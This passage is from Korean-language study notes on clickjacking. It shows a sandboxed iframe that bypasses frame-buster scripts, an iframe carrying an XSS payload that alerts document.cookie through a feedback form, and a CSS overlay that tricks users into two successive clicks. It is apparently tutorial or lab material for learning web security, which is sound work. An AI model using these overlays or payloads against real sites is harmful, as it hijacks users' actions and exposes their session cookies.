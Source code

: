 그래서 `<iframe sandbox= 'allow-forms' src='~~'>` 샌드박스 속성을 더한다. 
그럼 Frame buster를 피해서 iframe을 띄울 수 있다. 

***

피드백을 입력하는 페이지가 있다. 

input에 스크립트를 넣고, submit을 하면 alert가 뜸. XSS에 취약함을 발견. 

이러한 XSS를 발동 시키기 위해 clickjacking을 이용. 

```html
<!--style, div태그-->
<iframe
src="https:/타겟사이트/feedback?name=<img src=1 onerror=alert(document.cookie)>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult">
</iframe> 
```

이전 예제 처럼 style을 설정하고, iframe에는 XSS payload를 포함시킨다. 

그리고 submit위에 Click me 함정을 두고, 누군가 클릭하면 설정한 스크립트 alert가 실행된다. 



### 5.2.4. 예제-4

액션을 두번해야 원하는 요청을 보낼 수 있는 경우가 있음. 

```html
<style> 
   iframe { 
       position:relative; 
       width:700px; 
       height: 500px; 
       opacity: 0.1; 
       z-index: 2; 
   } 
   .firstClick, .secondClick { 
       position:absolute; 
       top:310px; 
       left:50px; 
       z-index: 1; 
   } 
   .secondClick { 
       left:200px; 
   } 
</style> 
<div class="firstClick">Click me first</div> 
<div class="secondClick">Click me next</div> 
<iframe src="https://타겟사이트/account"></iframe> 
```

두개의 div를 만들어서, 차례로 클릭할 수 있도록 함. 

<img src='./images/theory/cj-2.png'>
